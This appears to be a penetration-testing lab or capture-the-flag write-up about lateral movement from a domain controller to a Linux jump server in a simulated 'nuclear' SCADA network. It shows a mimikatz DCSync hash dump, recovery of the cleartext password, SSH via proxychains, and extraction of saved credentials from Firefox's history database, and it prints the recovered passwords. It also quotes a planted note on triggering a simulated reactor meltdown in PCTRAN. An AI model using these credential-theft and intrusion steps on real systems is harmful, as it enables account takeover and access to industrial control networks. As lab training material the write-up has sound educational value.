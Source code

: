 # Lateral Movement 2 - DC to Jump-Server

- [Lateral Movement 2 - DC to Jump-Server](#lateral-movement-2---dc-to-jump-server)
  - [Recap](#recap)
  - [Local Enumeration](#local-enumeration)

----

## Recap

From user enumeration, we know there is a user called `jump-admin`.

<br/>

From computer enumeration, we know there is a computer called `jump-server`, which is listening on tcp/22 - likely a linux machine.

<br/>

Dump the credential of the user `jump-admin` using DCSync using mimikatz:

```
lsapdump::dcsync /user:nuclear\jump-admin
```

![picture 37](images/53cf60a0dec08afd0e54492b07577814d600cfaff256c6966fd758bcf79b805a.png)  

NTLM:  `2dc9bff397f9e6c9f08a05b18145a7b6`

<br/>

Checking the NTLM on crackstation:

![picture 38](images/3657d962f1ef271efd03c6642d333b4994f6a6ceca65ec5564a2484baac26bc7.png)  

- The cleartext password of `jump-admin` is `B@DB!tch`.

<br/>

Then try to use this credential to SSH to Jump-Server:

```
proxychains ssh jump-admin@10.1.1.4
```

![picture 39](images/fa8ff6a53e33d58b58f2d91d7b4268b9938bab942823c6a108fb6c5250af1e7f.png)  

- Login successfully but the user has no sudo privilege.

<br/>

## Local Enumeration

Checking the user's home, there is a file called `Core_Reactor_notes`, which contains some instructions:

![picture 40](images/1213a49f87c61f839090b956a986f469ff88d7b30ac1bf7770d0b246cf2c0757.png)  


```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


        !!This file contains important information for
        proper operation of Nuclear Core Reactor!!


Extreme focus is on the heat generated by the Nuclear Reactor &
the cooling systems used to depress the amount of heat.


Scientist must be extreme cautious when dealing with the following cases:

- Loss or inadvertant withdrawl of coolant rods.

- Loss of Electric Power (Station Blackout)

- Failure of reactor protection systems.

- Natural Calamity (Earthquakes and fire)

The most probable case would be of inadvertant withdrawl of rods. 
On the SCADA-HOST, the PCTRAN application is the control panel for monitoring
and operating Nuclear Core Reactor. 

With access to PCTRAN control panel, the following procedure can replicate 
NUCLEAR MELTDOWN in core's reactor.

Code Control > Malfunctions > set option 12 (Inadvertent Rod Withdrawl)


Modify Delay Time (5)
Failure Fraction (100)
Check the active box 


Then, RUN the application, in 5 seconds, a message "OVERFlow" appears.

CAUTION: Nuclear Meltdown could be achieved by following the above procedure. 

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

```

- This is in fact one of our objective.

<br/>

Checking the firefox browsing history, there is a cleartext credential:

```
cd ~/.mozilla/firefox/4pzgqgj4.default-release
```

```
sqlite3 places.sqlite
```

```
.tables
```

```
select * from moz_places;
```

![picture 41](images/50b9188d7197e38747a8ed8de289e8ada56ecb40595764fcb1915fdc663cef3f.png)  

- scada-host.scada.local
  - `Administrator` / `SCADAAdmin!@#$%`


<br/>

Check the hosts file:

```
cat /etc/hosts
```

![picture 42](images/b0ce9a90f57a0efa6ea04d5422e5f66840303be91b2f66091497369ba4a90fb4.png)  

- IP address of `scada-host.scada.local` is `10.2.1.1`

<br/>

